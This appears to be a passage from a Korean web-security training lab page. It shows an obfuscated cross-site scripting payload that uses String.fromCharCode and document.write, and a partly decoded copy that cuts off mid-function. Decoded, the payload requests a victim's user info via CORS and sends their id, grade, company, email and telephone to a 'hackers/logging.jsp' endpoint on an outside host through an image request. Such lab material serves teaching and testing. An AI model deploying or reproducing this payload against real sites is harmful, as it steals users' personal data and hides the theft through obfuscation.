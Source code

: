    ```html
   <script>document.write(String.fromCharCode(60,115,99,114,105,112,116,62,10,9,102,117,110,99,116,105,111,110,32,99,114,101,97,116,101,67,79,82,83,82,101,113,117,101,115,116,40,109,101,116,104,111,100,44,32,117,114,108,41,32,123,10,9,9,118,97,114,32,120,104,114,32,61,32,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,40,41,59,10,9,9,105,102,32,40,34,119,105,116,104,67,114,101,100,101,110,116,105,97,108,115,34,32,105,110,32,120,104,114,41,32,123,10,9,9,9,47,47,32,88,72,82,32,102,111,114,32,67,104,114,111,109,101,47,70,105,114,101,102,111,120,47,79,112,101,114,97,47,83,97,102,97,114,105,46,10,9,9,9,120,104,114,46,111,112,101,110,40,109,101,116,104,111,100,44,32,117,114,108,44,32,116,114,117,101,41,59,10,9,9,125,32,101,108,115,101,32,105,102,32,40,116,121,112,101,111,102,32,88,68,111,109,97,105,110,82,101,113,117,101,115,116,32,33,61,32,34,117,110,100,101,102,105,110,101,100,34,41,32,123,10,9,9,9,47,47,32,88,68,111,109,97,105,110,82,101,113,117,101,115,116,32,102,111,114,32,73,69,46,10,9,9,9,120,104,114,32,61,32,110,101,119,32,88,68,111,109,97,105,110,82,101,113,117,101,115,116,40,41,59,10,9,9,9,120,104,114,46,111,112,101,110,40,109,101,116,104,111,100,44,32,117,114,108,41,59,10,9,9,125,32,101,108,115,101,32,123,10,9,9,9,47,47,32,67,79,82,83,32,110,111,116,32,115,117,112,112,111,114,116,101,100,46,10,9,9,9,120,104,114,32,61,32,110,117,108,108,59,10,9,9,125,10,9,9,114,101,116,117,114,110,32,120,104,114,59,10,9,125,10,10,9,102,117,110,99,116,105,111,110,32,109,97,107,101,67,111,114,115,82,101,113,117,101,115,116,40,41,32,123,10,9,9,118,97,114,32,117,114,108,32,61,32,39,104,116,116,112,58,47,47,111,112,101,110,101,103,46,99,111,109,58,56,49,56,49,47,111,112,101,110,101,103,47,99,111,114,115,47,111,112,101,110,101,103,47,103,101,116,85,115,101,114,73,110,102,111,46,106,115,112,39,59,10,9,9,118,97,114,32,120,104,114,32,61,32,99,114,101,97,116,101,67,79,82,83,82,101,113,117,101,115,116,40,39,71,69,84,39,44,32,117,114,108,41,59,10,9,9,10,9,9,105,102,32,40,33,120,104,114,41,32,123,10,9,9,9,97,108,101,114,116,40,39,67,79,82,83,32,110,111,116,32,115,117,112,112,111,114,116,101,100,39,41,59,10,9,9,9,114,101,116,117,114,110,59,10,9,9,125,10,9,9,120,104,114,46,111,110,108,111,97,100,32,61,32,102,117,110,99,116,105,111,110,40,41,32,123,10,9,9,9,118,97,114,32,115,32,61,32,74,83,79,78,46,112,97,114,115,101,40,120,104,114,46,114,101,115,112,111,110,115,101,84,101,120,116,41,59,10,9,9,9,118,97,114,32,111,117,116,112,117,116,32,61,32,39,60,98,114,47,62,105,100,32,58,32,39,32,43,32,115,46,105,100,32,10,9,9,9,9,9,32,32,32,43,32,39,60,98,114,47,62,103,114,97,100,101,32,58,32,39,32,43,32,115,46,103,114,97,100,101,32,10,9,9,9,9,9,32,32,32,43,32,39,60,98,114,47,62,99,111,109,112,97,110,121,32,58,32,39,32,43,32,115,46,99,111,109,112,97,110,121,10,9,9,9,9,9,32,32,32,43,32,39,60,98,114,47,62,101,109,97,105,108,32,58,32,39,32,43,32,115,46,101,109,97,105,108,32,10,9,9,9,9,9,32,32,32,43,32,39,60,98,114,47,62,116,101,108,101,112,104,111,110,101,32,58,32,39,32,43,32,115,46,116,101,108,101,112,104,111,110,101,59,10,9,9,9,10,9,9,9,110,101,119,32,73,109,97,103,101,40,41,46,115,114,99,32,61,32,34,104,116,116,112,58,47,47,111,112,101,110,101,113,46,99,111,109,58,56,49,56,49,47,111,112,101,110,101,103,47,99,111,114,115,47,104,97,99,107,101,114,115,47,108,111,103,103,105,110,103,46,106,115,112,63,115,61,34,43,101,110,99,111,100,101,85,82,73,67,111,109,112,111,110,101,110,116,40,111,117,116,112,117,116,41,59,10,9,9,125,59,10,9,9,120,104,114,46,111,110,101,114,114,111,114,32,61,32,102,117,110,99,116,105,111,110,40,41,32,123,10,9,9,9,97,108,101,114,116,40,39,87,111,111,112,115,44,32,116,104,101,114,101,32,119,97,115,32,97,110,32,101,114,114,111,114,32,109,97,107,105,110,103,32,116,104,101,32,114,101,113,117,101,115,116,46,39,41,59,10,9,9,125,59,10,9,9,120,104,114,46,115,101,110,100,40,41,59,10,9,125,10,10,9,109,97,107,101,67,111,114,115,82,101,113,117,101,115,116,40,41,59,10,60,47,115,99,114,105,112,116,62))</script>
   
   <!-- 위의 내용 -->
   <script>	
       function createCORSRequest(method, url) {	
           var xhr = new XMLHttpRequest();		
           if ("withCredentials" in xhr) {	
               // XHR for Chrome/Firefox/Opera/Safari.		
               xhr.open(method, url, true);	
           } else if (typeof XDomainRequest != "undefined") {		
               // XDomainRequest for IE.		
               xhr = new XDomainRequest();		
               xhr.open(method, url);		
           } else {		
               // CORS not supported.		
               xhr = null;		
           }	
           
           return xhr;	
       }
       
   	function makeCorsRequest() {	
           var url = 'http://openeg.com:8181/openeg/cors/openeg/getUserInfo.jsp';	
           var xhr = createCORSRequest('GET', url);	
   ```
